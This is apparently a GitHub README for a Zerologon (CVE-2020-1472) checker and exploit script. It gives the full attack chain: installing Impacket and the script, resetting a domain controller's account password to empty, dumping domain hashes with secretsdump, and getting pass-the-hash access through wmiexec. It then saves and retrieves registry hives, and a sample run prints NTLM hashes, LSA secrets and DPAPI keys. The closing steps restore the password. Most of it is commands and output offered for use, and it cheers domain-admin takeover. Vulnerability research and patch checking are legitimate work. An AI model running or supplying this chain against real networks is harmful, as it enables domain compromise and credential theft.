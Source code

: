 # CVE-2020-1472
Checker & Exploit Code for CVE-2020-1472 aka **Zerologon**

Tests whether a domain controller is vulnerable to the Zerologon attack, if vulnerable, it will resets the Domain Controller's account password to an empty string.

**NOTE:** It will likely break things in production environments (eg. DNS functionality, communication  with replication Domain Controllers, etc); target clients will then not be able to authenticate to the domain anymore, and they can only be re-synchronized through manual action. If you want to know more on how Zerologon attack break things, thanks to the awesome works of [@_dirkjan](https://twitter.com/_dirkjan), you can read it [**HERE**](https://threadreaderapp.com/thread/1306280553281449985.html)

Zerologon original research and whitepaper by Secura (Tom Tervoort) - [https://www.secura.com/blog/zero-logon](https://www.secura.com/blog/zero-logon)

[![asciicast](https://asciinema.org/a/359833.svg)](https://asciinema.org/a/359833)

# Exploit

It will attempt to perform the Netlogon authentication bypass. When a domain controller is patched, the detection script will give up after sending 2000 pairs of RPC calls, concluding that the target is not vulnerable (with a false negative chance of 0.04%).

The exploit will be successful only if the Domain Controller uses the password stored in Active Directory to validate the login attempt, rather than the one stored locally as, when changing a password in this way, it is only changed in the AD. The targeted system itself will still locally store its original password.

## Installation

Requires Python 3.7 or higher, virtualenv, pip and ~~a modified version of Impacket's library: nrpc.py (/impacket/dcerpc/v5)~~ the latest version of impacket from [GitHub](https://github.com/SecureAuthCorp/impacket) with added netlogon structures.

### 1. Install Impacket as follows:

1.	```git clone https://github.com/SecureAuthCorp/impacket```
2.	```cd impacket```
3.	```
	pwd 
	~/impacket/
	```
4.	```virtualenv --python=python3 impacket```
5.	```source impacket/bin/activate```
6.	```pip install --upgrade pip```
7.	```pip install .```

### 2. Install the Zerologon exploit script as follows:
1.	```pwd 
	~/impacket/
	```
2.	```cd examples```
3.	```git clone https://github.com/VoidSec/CVE-2020-1472```
4.	```cd CVE-2020-1472```
5.	```pip install -r requirements.txt```

## Running the script

The script can be used to target a DC or backup DC. It will likely also work against a read-only DC, but this has not been tested yet. 
The DC name should be its NetBIOS computer name. If this name is not correct, the script will likely fail with a `STATUS_INVALID_COMPUTER_NAME` error.
Given a domain controller named `EXAMPLE-DC` and IP address `1.2.3.4`, run the script as follows:

+    ```./cve-2020-1472-exploit.py -n EXAMPLE-DC -t 1.2.3.4```

Running the script should results in Domain Controller's account password being reset to an empty string.

At this point you should be able to run Impacket's ```secretsdump.py -no-pass -just-dc Domain/'DC_NETBIOS_NAME$'@DC_IP_ADDR``` (alternatively you can use the empty hash: ```-hashes :31d6cfe0d16ae931b73c59d7e0c089c0```) that will extract only NTDS.DIT data (NTLM hashes and Kerberos keys).

Which should get you Domain Admin. **WIN WIN WIN**

### Example Run
```
> cve-2020-1472-exploit.py -n WIN-U4Q9LLP6L2A -t 192.168.209.129
[+] Success: Zerologon Exploit completed! DC's account password has been set to an empty string.

> secretsdump.py -no-pass -just-dc ad.test.com/WIN-U4Q9LLP6L2A\$@192.168.209.129
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::

Restore:
> wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe ad.test.com/Administrator@192.168.209.129
- reg save HKLM\SYSTEM system.save
- reg save HKLM\SAM sam.save
- reg save HKLM\SECURITY security.save
- get system.save
- get sam.save
- get security.save
- del /f system.save
- del /f sam.save
- del /f security.save

> secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
[*] Target system bootKey: 0x31f99ee2e750274d1fee930ab88fe126
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:ef464f4194d9f401af41c9982dc7c85524cc9ed8adef4fe24c8044d13f1ae41c594131d2d46cab3a0d3384cda94baae65d5a87d26df1201ff6ff1697672ac4e16c16f0e514f6e54d84342c5af4193fe96329e3a30fb84c08845e7a86dac4295276c7c2e3181555fa5eef21d4d1f469550f4706383327b299283f72b7df6b661cfb11189bd8b3ab552ffb99aa12ffe19b760e00e143ef3e776d8377da57925c5ed71aa9f0991acff7fc9c963addb8496fdd273f231e15a51d99f41a770de714573b26795c45a03eac80e3bb45ac5c100740da5814c3979e5349e8471623086c80f6160163f4bd56da3b75a6deb17b1020
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:9b5ccb9700e3ed723df08132357ff6a1
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xaf83406b2611f18ac99329079e9f47d9409e885f
dpapi_userkey:0x53ed555f11c110f918fc9a97a6c3576266930fb7
[*] NL$KM 
 0000   55 A7 DF DF 27 E2 64 C1  F7 42 F2 1B 96 76 01 4F   U...'.d..B...v.O
 0010   24 4C 5D 9B 20 E3 EA 95  DD E9 61 0F 00 8E B2 51   $L]. .....a....Q
 0020   B1 79 3F E0 37 3E CB B2  95 31 A6 74 F3 35 54 8A   .y?.7>...1.t.5T.
 0030   C1 B6 70 3D B3 AB AC C1  7E 8E 90 7A 7B 49 32 46   ..p=....~..z{I2F
NL$KM:55a7dfdf27e264c1f742f21b9676014f244c5d9b20e3ea95dde9610f008eb251b1793fe0373ecbb29531a674f335548ac1b6703db3abacc17e8e907a7b493246
[*] Cleaning up... 

> reinstall_original_pw.py WIN-U4Q9LLP6L2A 192.168.209.129 ef464f4194d9f401af41c9982dc7c85524cc9ed8adef4fe24c8044d13f1ae41c594131d2d46cab3a0d3384cda94baae65d5a87d26df1201ff6ff1697672ac4e16c16f0e514f6e54d84342c5af4193fe96329e3a30fb84c08845e7a86dac4295276c7c2e3181555fa5eef21d4d1f469550f4706383327b299283f72b7df6b661cfb11189bd8b3ab552ffb99aa12ffe19b760e00e143ef3e776d8377da57925c5ed71aa9f0991acff7fc9c963addb8496fdd273f231e15a51d99f41a770de714573b26795c45a03eac80e3bb45ac5c100740da5814c3979e5349e8471623086c80f6160163f4bd56da3b75a6deb17b1020
```

## Password Restore
**Reinstalling the original password hash is necessary for the DC to continue to operate normally.**

After you have obtained Domain Admin, you can ```wmiexec.py``` to the target DC with a credential obtained from secretsdump and perform the following steps:

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
```

Run: ```secretsdump.py -sam sam.save -system system.save -security security.save LOCAL```

And that should show you the original NT hash of the machine account. You can then re-install that original machine account hash to the domain by using the ```reinstall_original_pw.py``` script provided [here](https://github.com/risksense/zerologon/). Sometimes more than one run is needed before it succeed.
```
reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR ORIG_NT_HASH
```
Alternatively you can use following [restoration process](https://github.com/dirkjanm/CVE-2020-1472)

